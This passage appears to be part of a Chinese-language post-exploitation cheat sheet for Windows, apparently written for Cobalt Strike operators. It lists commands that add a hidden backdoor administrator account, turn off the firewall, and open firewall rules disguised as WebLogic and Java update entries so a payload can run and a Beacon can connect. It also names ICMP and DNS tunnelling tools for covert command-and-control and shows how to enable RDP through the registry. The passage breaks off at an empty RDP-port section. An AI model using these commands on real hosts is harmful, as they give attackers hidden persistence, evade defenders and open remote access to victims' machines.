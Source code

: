 ### 8. 创建后⻔⽤户
```
shell net user test$ P@ssw0rd123 /add
shell net localgroup administrators test$ /add
shell net localgroup administrators
```
# 0x11 查看防⽕墙相关
```
netsh firewall show config
```
### 关闭防⽕墙
```go
netsh firewall set opmode disable    //Windows Server 2003 系统及之前的版本
netsh advfirewall set allprofiles state off  //Windows Server 2003 系统及之后的版本
```
⼀般来说不要操作防⽕墙的开关，⻛险极⼤，只需要查看配置即可
利⽤允许的⼊站端⼝:
查看已放⾏端⼝:
```
shell netsh firewall show portopening
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250717214640.png)
根据防⽕墙配置，⽬标主机已放⾏ TCP 7001 端⼝的⼊站流量（对应 WebLogic 服务端⼝）。我们可以利⽤这个开放端⼝进⾏ Beacon 连接 这仅表示：
添加防⽕墙规则:
```
# 放⾏7001端⼝的⼊站流量（伪装为WebLogic）

netsh advfirewall firewall add rule name="WebLogic_Service" dir=in protocol=TCP localport=7001 action=allow
# 放⾏CS⽊⻢进程路径（可选）
netsh advfirewall firewall add rule name="Java_Update" dir=in program="C:\Windows\Temp\payload.exe" action=allow
```

利⽤ ICMP 协议
```
https://github.com/krabelize/icmpdoor
```
DNS隧道
```
https://github.com/iagox86/dnscat2
```
# 0x12 RDP操作相关
## 查看RDP端⼝
```
shell reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250722133525.png)
为16进制数0xd3d，转换为10进制就是3389
## 开放RDP服务
```
shell reg add "HKLM\SYSTEM\CurrentControlSet\control\Terminal Server" /v fDenyTSConnections /d 0 /t REG_DWORD /f
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250722133644.png)
## 开放RDP端⼝
```
```